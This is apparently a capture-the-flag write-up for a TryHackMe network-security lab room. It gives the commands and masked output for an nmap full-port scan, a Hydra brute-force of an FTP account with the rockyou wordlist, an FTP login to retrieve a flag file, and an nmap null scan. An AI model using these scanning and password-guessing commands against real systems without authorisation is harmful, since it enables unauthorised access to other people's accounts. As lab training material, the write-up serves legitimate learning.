 <!-- TOC -->

- [Net Sec Challenge](#net-sec-challenge)
    - [Active Machine Information](#active-machine-information)
    - [Task 1](#task-1)
    - [Task 2](#task-2)

<!-- /TOC -->

# Net Sec Challenge

[Net Sec Challenge Room](https://tryhackme.com/room/netsecchallenge)

Practice the skills you have learned in the Network Security module.

## Active Machine Information

| Title | IP Address |
| :----: | :----: |
| NetSecMod Room 09 Challenge v1.11 | `1*.**.**.*` |

## Task 1

```bash
export IP=1*.**.**.*
```

## Task 2

```bash
sudo nmap -A -p- -T4 -vv -oA initial $IP
```

> `****/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)`

> `*****/tcp open  ftp         syn-ack ttl 61 v***** 3.*.*`

> `|_http-server-header: lighttpd THM{***_******_*****}`

> `|_    SSH-2.0-OpenSSH_8.2p1 THM{************}`

```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -t 20 -s 10021 -v $IP ftp
```

> `[10021][ftp] host: 1*.**.**.*   login: quinn   password: a*****`

Using: `quinn:a*****`

```bash
ftp 1*.**.**.* 10021
```

RHOST:

```bash
ls
get ftp_flag.txt
```

LHOST:

```bash
cat ftp_flag.txt
```

> `THM{************}`

```bash
sudo nmap -sN $IP
```

> `THM{********}`
